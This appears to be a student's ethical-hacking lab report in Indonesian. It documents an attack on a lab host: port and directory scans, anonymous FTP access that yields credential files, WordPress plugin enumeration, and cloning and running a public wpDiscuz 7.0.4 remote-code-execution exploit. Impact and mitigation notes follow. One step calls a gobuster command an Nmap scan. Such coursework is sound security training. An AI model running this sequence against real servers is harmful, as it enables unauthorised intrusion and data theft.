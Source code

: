 # ETHACK-PRAKTIKUM-2-2024

1. Cover Page

Nama Praktikan: Muhammad Kenas Galeno Putra
NRP: 5027231069
Judul Praktikum: Vulnerability Exploitation on FTP and WordPress Plugins

2. Nama Kerentanan

Vulnerable FTP: vsFTPd 3.0.5
Vulnerable WordPress Plugin: wpDiscuz 7.0.4 (Remote Code Execution)

3. Deskripsi Kerentanan

Vulnerable FTP: Kerentanan pada server FTP ini memungkinkan akses anonymous, sehingga siapa pun bisa mengakses dan mengunduh file tanpa autentikasi, yang dapat berisiko jika file tersebut berisi informasi sensitif.
Vulnerable WordPress Plugin: Plugin wpDiscuz versi 7.0.4 rentan terhadap Remote Code Execution (RCE), memungkinkan penyerang menjalankan perintah di server yang menggunakan plugin ini.

4. CVSS Score

Vulnerable FTP: CVSS Score: 5.0 (Medium) – Risiko dari akses unauthorized namun tidak langsung memberikan kendali penuh ke sistem.
wpDiscuz RCE: CVSS Score: 9.8 (Critical) – Kerentanan RCE memberikan akses penuh penyerang ke server.

5. Langkah Pengerjaan

Vulnerable FTP:
Pindai server untuk menemukan port yang terbuka:

```bash
nmap -p- 10.15.42.245
```
![langkah 1](https://github.com/user-attachments/assets/c1c2c175-0904-42e9-ad4e-10f43bda4e87)


Pindai kerentanan FTP dengan Nmap:

```bash
gobuster dir --url http://10.15.42.245:487 --wordlist /usr/share/wordlists/dirb/common.txt
```
![langkah 2](https://github.com/user-attachments/assets/e1622ada-0dc9-4a72-b402-35f5904e8fd5)


Login ke FTP menggunakan akun anonymous:

```bash
ftp 10.15.42.245
```

```bash
ls
get list.xyz
get readme.txt
```

![langkah 3](https://github.com/user-attachments/assets/ddb6a8dd-5e9e-4240-966f-124bf9380e0a)


Mencari username atau password dalam file:

```bash
cat list.xyz
grep -i "ethack" list.xyz
```

![langkah 4](https://github.com/user-attachments/assets/af24be7f-4219-40a3-8dd3-0d9b06e7c6e8)

Masukkan password pada hashesntxt

```bash
nano hashes.txt
```

![langkah 5](https://github.com/user-attachments/assets/70d6be57-2b69-45ee-a9f4-4fbfed67d89c)



Gunakan wpscan untuk mendeteksi plugin WordPress yang terinstal:

![langkah 6](https://github.com/user-attachments/assets/4b46ba37-e4cb-4191-a71a-ef75216d3920)


```bash
wpscan --url http://10.15.42.245:487 --enumerate p
```
![langkah 7](https://github.com/user-attachments/assets/86286eda-8900-48d6-8cf4-5b5a101df2f5)

Clone exploit wpDiscuz:

```bash
git clone https://github.com/hev0x/CVE-2020-24186-wpDiscuz-7.0.4-RCE
```
![langkah 8](https://github.com/user-attachments/assets/ce1f2b97-1a83-4b2e-a69e-c977bfb87140)

Jalankan exploit:

```bash
cd CVE-2020-24186-wpDiscuz-7.0.4-RCE
```

```bash
sudo python3 wpDiscuz_RemoteCodeExec.py -u http://10.15.42.245:487 -p /2024/10/03/trial/
```

Tampilkan:

```bash
ls
```
![langkah 9](https://github.com/user-attachments/assets/42e42452-3951-4645-b4fe-8b848ad104e1)


6. Dampak

Vulnerable FTP: Akses unauthorized memungkinkan pengunduhan file yang mungkin berisi informasi sensitif seperti hash password, data pengguna, atau file penting lainnya.
wpDiscuz RCE: Penyerang bisa mengeksekusi perintah di server, yang bisa mengarah ke kontrol penuh atas server WordPress, termasuk pencurian data, defacement website, dan tindakan jahat lainnya.

7. Mitigasi

FTP Vulnerability:
Nonaktifkan akses anonymous pada FTP.
Gunakan protokol yang lebih aman seperti SFTP atau FTPS.
wpDiscuz RCE:
Patch plugin ke versi terbaru.
Batasi akses ke plugin dan pantau aktivitas server secara berkala untuk mendeteksi aktivitas mencurigakan.
